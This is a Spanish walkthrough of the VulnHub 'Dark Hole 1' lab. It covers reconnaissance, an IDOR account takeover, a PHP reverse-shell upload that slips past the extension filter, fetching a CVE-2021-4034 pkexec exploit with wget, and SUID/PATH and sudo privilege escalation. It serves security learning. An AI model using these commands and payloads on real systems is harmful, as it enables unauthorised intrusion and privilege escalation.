# Black Hole

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3> 

<h3> Fecha de resolución: 26/09/2025 </h3>

<h3>Enlace de la mv: <a href="https://www.vulnhub.com/entry/darkhole-1,724" target="_blank">Dark Hole</a></h3>

### *Leer el documentro en Ingles* <a href="darkhole_ingles.md">Dark hole</a>

## Reconocimiento

Como estamos trabajando en la plataforma **VulnHub** para encontrar la ip de la máquina tendremos que hacer lo siguiente:

1.- Todo la intrusión que vamos a realizar tanto de la máquina atacante como victima tiene que estar en **VMware**

2.- La configuración de nuestra kali, tiene que tener lo siguiente:

En Player - Manage - Virtual Machine Settings - Network Adapter

<p align="center"> 

</p>

3.- En nuestra kali haremos los siguientes comandos: 

```
sudo arp-scan -I eth0 --localnet
```
y
```
macchanger -l | grep -i vmware
```

<p align="center"> 

</p>

Comprobamos que la ip de la máquina victima está siendo detectada

4.- Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **darkhole**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 darkhole
```

Su ttl es 64, por tanto, la maquina es linux.
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn darkhole
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 22        | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 |
| 80        | http    | Apache httpd 2.4.41             |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn darkhole
```

**Todos los puertos están cerrados**

## Explotación

Como el puerto 80 esta abierto, vamos a ver su contenido:

<p align="center"> 

</p>

En la esquina derecha se puede realizar un login, pero nada más, intento registrarme, y me logeo y me sale lo siguiente

<p align="center"> 

</p>

En la url donde pone id=3, lo cambiamos a id=1

<p align="center"> 

</p>

Vamos a interceptar la pagina con **bup suite**

<p align="center"> 

</p>

Vamos a cambiar la id 3 por 1, que es la del super usuario (admin), luego darle a **Forward**

Como es una máquina fácil voy a probar logearme con el **usuario admin y contraseña 12345**

<p align="center"> 

</p>

Luego, kali tiene una reverse shell el cual vamos a usar para meternos dentro del sistema.

```
cp /usr/share/webshells/php/php-reverse-shell.php /home/kali/Desktop   
```

Lo único que tenemos que cambiar de php-reverse-shell.php es lo siguiente:

<p align="center"> 

</p>

La ip es de nuestra maquina atacante kali y el port 4444 seria el puerto de escucha

Vamos a llevar el archivo al escritorio, y subirlo.

<p align="center"> 

</p>

Aunque salga que X extensiones no permite subirlo nosotros vamos a probar varias alternativas usando bupsuite. Por tanto interceptaremos esto.

<p align="center"> 

</p>

Donde esta .php le damos a **Add$**

Luego, en el apartado de la derecha añadimos las siguientes extensiones 

<p align="center"> 

</p>

Luego me tengo que ir a **settings - add - Refetch response** y copiamos lo siguiente 
*Sorry , Allow Ex : jpg,png,gif*

<p align="center"> 

</p>

Por último le damos a **Start Attack** y realizara las pruebas correspondiente. Después, vamos a usar fuzzing web para encontrar donde se ha subido los archivos 

### Fuzzing web

```
gobuster dir -u http://darkhole -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Dentro de http://darkhole/upload/ nos encontramos lo siguiente:

<p align="center"> 

</p>

Ahora vamos a dejar activado el puerto de escucha con el siguiente comando:

```
nc -lvp 4444
```

Justo el primero **.phar** es el que me ha funcionado

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```
Nos pide contraseña.
#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Siempre cuando tenemos la oportunidad de escalar privilegio con **pkexec** buscamos en google lo siguiente: <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">pkexec-exploit</a>

<p align="center"> 

</p>

Para descargarlo con **wget** solo nos bastaría irnos aquí y copiamos la url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Luego le cambio el nombre para que sea más facil

<p align="center"> 

</p>

comparto el archivo con este comando 

```
python -m http.server 80
```

Luego situado en la carpeta **/tmp** me traigo el archivo con el siguiente comando:

```
wget http://ipMaquinaAtacante/exploit.py
```

<p align="center"> 

</p>

Luego, le damos permiso de ejecución y ejecutamos

```
chmod +x exploit.py
./exploit.py
n
```

<p align="center"> 

</p>

Por ultimo nos situamos en la carpeta root, y leemos el .txt 

<p align="center"> 

</p>

#### Tercera Forma de explotarlo

Sería aprovecharnos del file **toto** que esta dentro del usuario John que es un binario, y su uid es del usuario john.

<p align="center"> 

</p>

Nos situamos en la carpeta **tmp**, dentro creamos un archivo llamado **id** le ofrecemos permiso de ejecución: 

```
chmod +x id
```

Dentro del archivo id escribimos: 

```
bash -p 
```

Si queremos que la terminal sea mas grande introducimos el siguiente comando:

```
stty rows 44 columns 184
```

Luego, escribimos lo siguiente:

```
export $PATH=/tmp:$PATH
```

Por tanto, conseguimos colocar un ejecutable llamado `id` en `/tmp`, poner `/tmp` al principio de `PATH` y así lograr que un binario SUID (en tu ejemplo `toto`, propiedad de `john`) ejecute `/tmp/id` en lugar del binario legítimo. Si `toto` corre con UID efectivo `john` entonces el proceso hijo también heredará ese UID efectivo y, si `id` lanza `bash -p`, la shell preservará el UID efectivo (serías `john` en la shell).

<p align="center"> 

</p>

Soy John. Leemos el archivo password, nos da una contraseña.

<p align="center"> 

</p>

Obtengo la contraseña, puedo acceder por ssh con:

Usuario: john 
Contraseña: root123

Podemos leer la flag de john:

<p align="center"> 

</p>

Por último ejecutando el comando:

```
sudo -l
```

Usando la contraseña anteriormente encontrada, nos encontramos lo siguiente:

<p align="center"> 

</p>

El script **file.py** su suid es de root, quiero saber que permiso tiene el archivo file.py

<p align="center"> 

</p>

Que casualidad justo lo puedo usar yo, por tanto dentro del script escribimos lo siguiente:

<p align="center"> 

</p>

Este comando lo que hace es asignar el suid a la bash, y como el suid es root, pues.... seremos **root**

```
sudo /usr/bin/python3 /home/john/file.py
bash -p
```

<p align="center"> 

</p>

## Conclusión

En Vulnhub usando la maquina Dark Hole 1, me ha resultado una maquina de la más interesante, me ha resultado de lo más curioso a la hora de apoyarme con **burpsuite** para conseguir cambiar la contraseña del usuario **admin** (al ser  una maquina sencilla, decidi probar con usuarios tipicos para logearme y lo consegui). Lo siguiente, fue subir archivos intentando usar el que tiene la kali, cambiando la extensión por otra que no sea **php**, ya que, con esta ultima no me dejaba. Cuando entre al sistema, investigue que hay dos **formas** de poder escalar privilegio, una fue explotar el binario **pkexec** y con ello al final terminaríamos siendo root, otra forma, seria de aprovecharme del binario **toto** que se encuentra dentro de la carpeta **john**, y ser john, por ultimo, usando el script **file.py** seriamos root. Una máquina donde los pequeños detalles y repasando lo que es un suid, conseguimos explotar las vulnerabilidades.
